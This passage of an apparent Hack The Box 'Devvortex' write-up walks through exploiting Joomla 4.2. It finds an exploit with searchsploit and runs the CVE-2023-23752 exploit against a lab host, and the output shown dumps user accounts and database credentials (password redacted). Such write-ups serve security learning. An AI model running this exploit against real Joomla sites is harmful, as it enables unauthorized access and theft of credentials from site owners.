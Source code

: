 ### What is Joomla

Joomla is a popular, open-source Content Management System (CMS) used to build, manage, and publish content for websites, blogs, and online applications. It is written in PHP and uses a **MySQL** database to store content and settings.


# Exploitation

## Joomla compromise

Checking the subdomain's README.txt file reveals the Joomla version as 4.2.

A quick search of `searchsploit` and we find a promising exploit.

<img src="/assets/img/20240115-devvortext-joomlaexploit.png" alt="20240115-devvortext-joomlaexploit.png" class="auto-resize">

Using the `mirror` command the exploit can be copied to a working directory.

```bash
┌──(kali㉿kali)-[~/Documents/HTB-Machines/devvortex/exploits]
└─$ searchsploit -m exploits/php/webapps/51334.py
```

This exploit ran into some library issues so  another version on GitHub was used: https://github.com/svaltheim/CVE-2023-23752/blob/main/CVE-2023-23752

The exploit executed successfully and identified two users, site details and database information including credentials.

```
┌──(kali㉿kali)-[~/Documents/HTB-Machines/devvortex/exploits]
└─$ ./CVE-2023-23752 http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: False

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: <REDACTED>
DB name: joomla
DB prefix: sd4fg_
DB encryption 0

```
